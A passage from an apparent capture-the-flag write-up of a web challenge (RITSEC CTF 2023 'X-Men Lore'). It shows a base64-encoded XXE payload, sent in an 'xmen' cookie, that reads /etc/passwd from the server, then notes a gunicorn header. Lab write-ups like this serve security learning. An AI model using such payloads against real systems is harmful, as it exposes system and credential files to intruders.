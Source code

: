 ```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/Web/X-Men-Lore)-[2023.04.01|14:34:09(HKT)]
└> python3 encode_xml.py
PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz48IURPQ1RZUEUgcm9vdCBbIDwhRU5USVRZIHh4ZSBTWVNURU0gImZpbGU6Ly8vZXRjL3Bhc3N3ZCI+IF0+PGlucHV0Pjx4bWVuPiZ4eGU7PC94bWVuPjwvaW5wdXQ+
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/RITSEC-CTF-2023/images/Pasted%20image%2020230401143745.png)

Nice! We can confirm the `xmen` cookie is indeed vulnerable to XXE!!

But where's the flag??

Hmm... Let's ***view the server-side's source code***!

**During sending the payload request, I found that the response has a `Server` header:**
```http
Server: gunicorn
```
